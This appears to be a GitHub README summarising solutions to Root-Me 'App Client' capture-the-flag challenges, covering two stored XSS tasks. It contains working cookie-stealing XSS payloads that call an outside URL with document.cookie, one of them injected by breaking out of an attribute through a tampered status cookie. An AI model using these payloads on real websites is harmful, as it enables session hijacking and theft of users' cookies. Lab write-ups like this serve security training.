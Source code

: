 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>fetch("URL?c="+document.cookie)</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>fetch("URL?c="+document.cookie)</script>` and post a message
